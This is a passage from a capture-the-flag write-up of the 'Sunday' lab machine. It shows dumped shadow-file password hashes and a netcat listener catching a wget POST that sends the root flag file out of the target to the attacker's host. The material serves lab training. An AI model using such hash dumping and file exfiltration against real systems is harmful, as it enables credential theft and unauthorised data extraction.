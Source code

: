 ```console
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

We can see the differences with the backup, being the main one that we have the root hash. Now, we could repeat the same process and try to crack the hash to get to root (with shell access) or we could simply send us the contents of ``/root/root.txt``:

```console
parallels@ubuntu:~/Desktop/Sunday$ nc -lnvp 8002
Listening on [0.0.0.0] (family 0, port 8002)
Connection from [10.10.10.76] port 8002 [tcp/*] accepted (family 2, sport 40042)
POST / HTTP/1.0
User-Agent: Wget/1.10.2
Accept: */*
Host: 10.10.15.6:8002
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

fb40fab61d99d37536daeec0d97af9b8
```

And that's how we got the hash!

I also checked the contents of ``/root/troll`` and ``/backup/agent22.backup`` (out of curiosity) and it turned out they were the same:

```sh
#!/usr/bin/bash

/usr/bin/echo "testing"
/usr/bin/id
```

*Diego Bernal Adelantado*
